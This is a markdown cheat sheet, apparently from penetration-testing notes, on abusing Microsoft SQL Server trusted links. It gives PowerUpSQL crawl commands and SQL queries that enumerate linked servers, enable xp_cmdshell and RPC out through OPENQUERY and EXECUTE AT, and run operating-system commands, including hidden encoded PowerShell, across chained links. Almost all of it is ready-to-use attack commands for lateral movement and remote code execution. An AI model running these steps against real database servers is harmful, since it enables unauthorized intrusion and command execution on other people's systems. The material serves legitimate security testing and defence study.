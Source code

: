 ````
#### Search for links to remote servers
- Check if `RPC_OUT` is enabled. If yes and link is configured with sysadmin we can enable xp_cmdshell.
```
Get-SQLServerLink -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links to remote servers
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links and show servers where we are sysadmin
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> | Where-Object -Property sysadmin -Match 1
```

#### Crawl and try to use xp_cmdshell on every link
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami'''
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami''' | Where-Object CustomQuery
```

### Manual queries
- https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links
- There is two methods ```openquery()``` and ```EXECUTE AT```.
- Some times you won't be able to perform actions like exec xp_cmdshell from ```openquery()``` in those cases it might be worth it to test ```EXCUTE AT```

#### Manually enumerate database links query
```
SELECT * FROM master..sysservers
```
 
#### Query a link - for example for more for links or information
```
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM master..sysservers;')
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'select @@servername');
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```
 
#### Example with double or tripple queries
```
SELECT * FROM OPENQUERY("sql-1.test.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
SELECT * FROM OPENQUERY("sql-1.test.io", 'select * from openquery("sql01.test.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

#### EXECUTE AT Enable xp_cmdshell
- RPC out needs to be enabled - this isn't default!
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT "<DB>"
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT "<DB>"
EXEC('exec master..xp_cmdshell ''whoami''') AT "<SERVER>\<DB>"
```
 
#### EXECUTE AT enable RPC Out
- Requires to be sysadmin on the SQL server, not sysadmin for the configured link!
- Enter Srvname from enumerating links
```
EXEC sp_serveroption
@server='<SERVER>\<DB>', @optname='rpc out', @optvalue='True'
```
````